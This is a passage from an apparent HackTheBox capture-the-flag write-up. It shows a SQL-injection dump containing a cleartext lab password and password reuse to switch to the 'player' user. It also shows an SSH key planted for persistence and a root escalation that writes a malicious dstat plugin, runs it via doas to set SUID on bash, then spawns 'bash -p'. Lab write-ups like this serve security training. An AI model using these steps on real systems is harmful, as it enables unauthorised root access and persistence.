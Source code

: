 ```bash
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```


I was able to use the SQLi vuln to extract a clear text password for `player` this password was reused for `player's` account on the box. From here I run `ssh-keygen` and now have ssh access to player.

Back on the box, I check `/etc/passwd` and see the `player` is the only other user on the box. I try this password and find that the password is reused, and I am able to switch over to the `player` user. I transfer my public SSH key to `player's` `~/.ssh/authorized_keys` file, and I now have SSH access as `player`
## Root Shell
Linpeas reveals that `doas.conf` allows `player` to run `/usr/bin/dstat` as root. After *much* searching, I found [this page](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/) on how to exploit `dstat`. `Dstat` has the capabilties to run plugins, which are in the form of little python scripts. I can actually write my own python script that will then be run by `dstat` and since `dstat` is run with `doas -u root`, I can run commands as root.

`Dstat` looks for plugins in 2 locations, `/usr/share/dstat` and `usr/local/share/dstat`. All the current plugins were in the `/usr/share/dstat` location, which I could not write to. However Dstat does actually check both locations and I could write to `/usr/local/share/dstat`. So I wrote a python script to make `/usr/bin/bash` an SUID binary and then ran `/usr/bin/bash -p` to give me a root shell! `Doas` threw a bunch of errors but it worked! There is a cron script running that will clear `/usr/local/share/dstat` so you have to do this kind of fast.
```bash
cd /usr/local/share/dstat
vim dstat_exploit.py
```
```python
#! /usr/bin/python3

import os

os.system('chmod +s /usr/bin/bash')
```
```bash
doas -u root /usr/bin/dstat --list | grep exploit # Check that malicious plugin is present. Plugins are identified with the syntax dstat_<PLUGIN NAME>.py
doas -u root /usr/bin/dstat --exploit # This threw a few error codes but nevertheless worked
ls -la /usr/bin/bash # Checking that it's now an SUID binary
/usr/bin/bash -p # Become Root!
```